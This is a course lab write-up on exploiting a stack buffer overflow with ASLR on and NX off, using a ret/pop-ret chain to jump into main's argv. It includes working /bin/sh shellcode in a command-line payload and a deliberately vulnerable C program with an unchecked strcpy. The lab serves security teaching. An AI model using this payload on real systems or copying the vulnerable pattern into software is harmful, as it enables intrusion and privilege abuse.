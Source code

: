 # Lab4 - Buffer overflow attack(turn on ASLR, turn off NX), 

## !! Some images are from the course lecture files !!

## Overview
+ If ASLR is off, we can find out exact address of the user input.
+ But, with ASLR is on, it's really hard to get exact address of the stack. Because it changes whenever executing.
+ When calling a function with an user input, there should be the input argument in the stack frame. 
+ If we can found the address of the argument in the stack, and then we can use that address to execute our malicious code.

## Payload
Payload = shellcode + alignment + &ret*N + &pop-ret

## Before get started
+ First, compile the source at the bottom of this page like below.
```
gcc -g -m32 -z execstack -fno-stack-protector ans_check6.c -o ans_check6
```
+ Second, make sure the ASLR option is turned on . The value should be 1 or 2.(Not 0)
```
cat /proc/sys/kernel/randomize_va_space
```

## Steps
1. Find out where the break points are. There are two break points. Before calling strcpy and after calling.(line number 12 and 14)
2. Run gdb and set break points.
3. Run with the random argument you can notice.(Run like this in gdb. run 33333333)
4. Find the return address and a parameter from the stack using x/72xw $esp.
5. If you investigate stack frame further, you can find exact same address upper portion in the stack frame. Why? because main function call also resides in the stack frame and it also has input arguments.(These are argc, argv)
6. Now, you can caculate how many bytes do we need to overwrite up until the main argv. If we can reach to that point, we may execute main function's argument strings(It is a malicous code)
7. In the image below, we are going to overwrite from Number 1 to Number 5. But What are we going to write?
### Figure out how many bytes do we need to fill up
![howto3](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto3.png)
8. Overwrite the address of 'ret' and 'pop-ret' instruction up until the second address! About finding out the address of 'ret' and 'pop-ret' is explained below

## What is 'ret' and 'pop-ret'
+ 'ret' pops up the top of the stack and shrink the stack point(esp)
+ 'pop-ret' is similar to 'ret' and it pops one more time. 
+ How to find 'ret' and 'pop-ret'? In the program there should be several ret and pop-ret instruction itself.
```
objdump -D ans_check6 | less
objdump -D ans_check6 | grep -B3 ret | grep -A1 pop
```

## The payload I use
```
./ans_check6 $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90'+'\x21\x86\x04\x08'*55+'\x91\x83\x04\x08'")
```

## Result of getting a new shell 
![howto4](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto4.png)


## Our stack frame
![howto1](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto1.png)

## Our strategy
![howto2](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto2.png)


## After injecting ret & pop-ret
![howto3](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto3.png)


## ans_check6.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[34];
  printf("check_answer.ans is at address %p\n", ans);
  printf("check_answer.ans_buf is at address %p\n", &ans_buf);

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {
  printf("main:%p\n", main);
  printf("check_answer:%p\n", check_answer);
  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }
  printf("main.argc is at address %p\n", &argc);
  printf("main.argv[0] is at address %p\n", argv[0]);
  printf("main.argv[1] is at address %p\n", argv[1]);
  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
}

```
